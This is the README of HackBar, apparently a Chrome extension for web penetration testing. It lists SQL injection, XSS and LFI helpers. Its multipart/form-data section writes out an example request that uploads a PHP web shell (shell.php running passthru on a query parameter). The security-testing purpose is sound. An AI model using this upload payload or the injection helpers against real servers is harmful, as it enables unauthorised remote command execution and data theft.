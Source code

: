 # HackBar

HackBar for Chrome.

Available on [Chrome Web Store](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc).

## Requested Permissions

* tabs
* webRequest
* webRequestBlocking

## Features

* Support GET and POST (including [multipart/form-data](#multipartform-data)) method.

* SQLi
  * Dump all database names (MySQL, PostgreSQL)
  * Dump tables from database (MySQL, PostgreSQL)
  * Dump columns from database (MySQL, PostgreSQL)
  * Union select statement (MySQL, PostgreSQL)
  * Error-based injection statement (MySQL)
  * Space to Inline comment

* XSS
  * Html encode/decode
  * String.fromCharCode encode/decode

* LFI
  * PHP wrapper - Base64

* Encoding
  * URL encode/decode
  * Base64 encode/decode
  * Hexadecimal encode/decode
  * Unicode encode/decode

* Hashing
  * MD5
  * SHA1
  * SHA256
  * SHA512

## Shortcuts

| Description | Default   | Mac           |
| ----------- | --------- | ------------- |
| Load URL    | `Alt + A` | `Control + A` |
| Split URL   | `Alt + S` | `Control + S` |
| Execute URL | `Alt + X` | `Control + X` |

## multipart/form-data

After changing **enctype** field to ```multipart/form-data```, you can put your request payload into **Body** field such as the following:

```
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="user"

user
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php

<?php passthru($_GET['c']); ?>
------WebKitFormBoundarydbJBATDXCC6CL0lZ--
```

We will consider the first line as boundary, and reconstruct a form element to send your request.

Therefore, sent boundary will not be the same as your typed.

## Third-party Libraries

* Vue.js
* Vuetify.js
* [jshashes](https://github.com/h2non/jshashes)
* [utf8.js](https://github.com/mathiasbynens/utf8.js)
